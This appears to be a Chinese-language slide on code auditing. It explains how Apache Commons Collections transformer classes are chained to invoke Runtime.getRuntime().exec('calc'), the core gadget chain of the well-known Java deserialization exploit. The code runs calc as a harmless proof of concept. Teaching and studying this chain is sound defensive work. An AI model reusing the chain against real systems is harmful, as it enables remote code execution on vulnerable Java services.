

# 代码审计-源码分析
如何利用Commons Collections中的相关类来实现Runtime.getRuntime().exec("calc")代码呢？

Transformer[] transformers = {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
};
ChainedTransformer ct = new ChainedTransformer(transformers);
ct.transform("2");  //调启

上述代码是利用Commons Collections 类库中 ConstantTransformer 类、InvokerTransformer 类、ChainedTransformer类、Transformer[] 数组等方式来组合实现的。
144